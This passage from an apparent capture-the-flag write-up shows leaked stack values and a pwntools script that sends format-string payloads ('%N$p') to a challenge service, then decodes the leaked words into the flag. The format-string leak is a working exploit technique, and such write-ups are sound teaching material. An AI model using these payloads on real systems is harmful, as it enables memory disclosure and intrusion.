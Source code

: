 ```bash
 39: 0xf7e07256
 40: 0xf7d0952c
 41: 0xf7e9ae0c
 42: (nil)
 43: 0x804bf04
 44: 0xffa4ac18
 45: 0xf7f02fb0
 46: (nil)
 47: 0xe2a11e00
 48: 0x3e8
 49: 0xf7e9ae0c
 50: (nil)
```
There are some funny looking numbers on 36, 37 and 38. These are pieces of the flag of this challenge.

#### Make some modification to the script

As a lazy person I prefer using script to convert the flag from ascii looking numbers to actual string.
So I made some modification to the original code:

```python
def find_flag(n):
    context.log_level = "ERROR"
    leak = ""
    for i in range(n//10):
        r = conn()
        payload = b''
        for j in range(i*10+1,i*10+11):
            payload += f"%{j}$p|".encode("ascii")
        payload += b'*'
        r.sendlineafter(b'>>', payload)
        r.recvuntil(b'Pattern decoded as - \n')
        leak += r.recvuntil(b'*', drop=True).decode("ascii")
        r.clean()
        r.close()
    context.log_level = "INFO"

    leak = leak.split("|")
    flag = ''
    for i in range(len(leak)-1):
        try:
            l = p32(int(leak[i],16)).decode("ascii")
        except:
            l = ''
        flag += l
    try:
        flag = flag[flag.index("flag") : flag.index("}")+1]
    except:
        log.failure("No Flag, n need to be larger, or change the flag header")
        return ""

    return flag
```
